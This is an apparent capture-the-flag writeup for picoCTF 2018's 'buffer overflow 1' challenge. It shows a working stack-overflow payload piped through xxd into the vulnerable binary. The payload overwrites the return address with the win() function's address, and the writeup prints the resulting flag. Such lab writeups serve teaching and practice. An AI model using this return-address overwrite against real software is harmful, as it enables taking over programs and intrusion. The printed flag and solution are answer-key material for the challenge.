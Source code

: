 ## Writeup for 2018 picoCTF: buffer overflow 1
Binary Exploitation, 200 points

### Problem
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program] (https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln)? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln.c).

Our task is to overflow the buffer so that the return address of `vuln()` is changed to that of `win()`.  
Finding the location of `vuln()`'s return address involves some trial and error:  
```
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 1515 1515
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
```
Output:  `Okay, time to return... Fingers Crossed... Jumping to 0x15151515`  
Observing the output it's clear that we should replace `1515 1515` with `win()`'s address, which we can find out is `0804 85cb` by `objdump -D vuln | grep win`  
Playing around it seems my machine is in Little Endian. So `cb85 0408` is the correct input, instead of `0804 85cb`.

### Solution:
```
objdump -D vuln | grep win;
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 cb85 0408
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```
